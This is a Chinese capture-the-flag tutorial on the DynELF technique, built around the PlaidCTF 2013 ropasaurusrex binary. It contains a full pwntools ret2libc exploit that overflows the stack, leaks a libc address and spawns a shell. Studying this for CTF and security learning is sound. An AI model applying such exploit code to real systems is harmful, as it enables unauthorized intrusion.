 > 参考资料：
>
> [https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42933&highlight=pwn](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42933&highlight=pwn)
>
> 附件：
>
> 链接: [https://pan.baidu.com/s/1rLzeSuP099BfFveM5qOicA](https://pan.baidu.com/s/1rLzeSuP099BfFveM5qOicA)  密码: ocuw
>
> --来自百度网盘超级会员V3的分享
>

# DynELF引入
在讲述DynELF之前，我们先来看一道题，这道题是<font style="color:#515151;">PlaidCTF2013的ropasaurusrex，题目文件会在附件中提供下载。</font>

文件保护情况如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610424794703-443e56f1-42cc-4184-9da3-6f4d98b8ec6a.png)

文件题目比较老了，32位程序，只开启了NX保护，放入IDA中查看一下：



![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610424880014-2c96e801-70ae-4ac2-a9f3-43b972ee39ca.png)

进入sub_80483F4：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610424906927-0530887a-6995-4920-81cc-211e4be8c5ea.png)

可以看出，这是一个很简单的栈溢出，同时ELF文件中并没有发现system和“/bin/sh”，一道ret2libc3无疑了，在本机上进行攻击，exp如下：

```python
from pwn import *
context.log_level="debug"

p=process('./ropasaurusrex')
elf=ELF("./ropasaurusrex")
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

write_plt=elf.plt['write']
read_got=elf.got['read']
main_addr=0x0804841D
payload=140*'a'+p32(write_plt)+p32(main_addr)+p32(1)+p32(read_got)+p32(4)
p.sendline(payload)
#gdb.attach(p)
leak_addr=u32(p.recv(4))
print "leak_addr",hex(leak_addr)
libc_base=leak_addr-libc.symbols['read']
print "leak libc_base",hex(libc_base)
system_addr=libc_base+libc.symbols['system']
bin_sh_addr=libc_base+libc.search('/bin/sh').next()
payload1=140*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
p.sendline(payload1)
p.sendline('ls')
p.sendline('cat flag')
p.interactive()
```

